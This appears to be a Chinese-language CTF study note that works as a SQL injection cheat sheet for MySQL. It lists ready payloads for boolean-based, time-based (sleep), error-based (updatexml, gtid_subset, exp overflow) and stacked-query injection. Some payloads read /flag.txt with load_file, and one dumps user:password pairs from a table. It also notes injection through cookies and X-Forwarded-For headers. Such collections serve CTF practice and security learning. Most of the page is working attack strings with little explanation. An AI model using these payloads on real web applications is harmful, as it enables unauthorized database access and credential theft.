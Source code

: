 # 布尔回显注入
	- https://www.anquanke.com/post/id/170626
	- `where id=1 and 1=1`
	- `where id=1!=2!=(database()regexp('.'))!=0`
	- `1&&((select 1,'z')>(select * from f1ag_1s_h3r3_hhhhh))`
	- `if(length(database())<0, '1', ST_X('willerror'))`
	- `exp(710-（1>1))`
- # 布尔无回显注入
	- `where id=1 and if(length(database())>5, sleep(2), 1)`
- # 报错注入
	- [大佬的文章](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-7-%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5.md)
	- `where id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,30)),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,database(),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,0x61,0x7e),1)#`
	- `') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+`
	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`
	- `exp(710)`
	- `exp(~1)`
- # 堆叠注入
	- `where id=1; show tables;`
- # 注入方向
	- 向 cookie 注入
	- 向 x-forward-for 注入
- # with rollup万能密码
	- [[CTF/WP/SWPU2019 Web6]]
- 二次注入
- 宽字节
- 脚本批量注入